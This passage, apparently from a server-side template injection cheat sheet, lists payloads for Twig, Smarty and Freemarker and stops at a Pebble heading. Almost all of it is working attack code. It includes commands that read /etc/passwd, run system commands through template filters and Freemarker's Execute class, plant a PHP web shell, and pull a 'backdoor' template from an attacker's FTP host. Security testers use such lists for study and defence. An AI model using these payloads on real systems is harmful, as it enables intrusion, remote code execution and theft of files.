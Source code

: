 ### Twig - Template format

    $output = $twig > render (
      'Dear' . $_GET['custom_greeting'],
      array("first_name" => $user.first_name)
    );

    $output = $twig > render (
      "Dear {first_name}",
      array("first_name" => $user.first_name)
    );

### Twig - Arbitrary File Reading

    "{{'/etc/passwd'|file_excerpt(1,30)}}"@

### Twig - Code execution

    {{self}}
    {{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
    {{['id']|filter('system')}}
    {{['cat\x20/etc/passwd']|filter('system')}}
    {{['cat$IFS/etc/passwd']|filter('system')}}

#### Example with an email passing FILTER\_VALIDATE\_EMAIL PHP:

    POST /subscribe?0=cat+/etc/passwd HTTP/1.1
    email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld

## Smarty

    {$smarty.version}
    {php}echo `id`;{/php}
    {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

## Freemarker

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`

### Freemarker - Code execution

    <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
    [#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
    ${"freemarker.template.utility.Execute"?new()("id")}

## Pebble
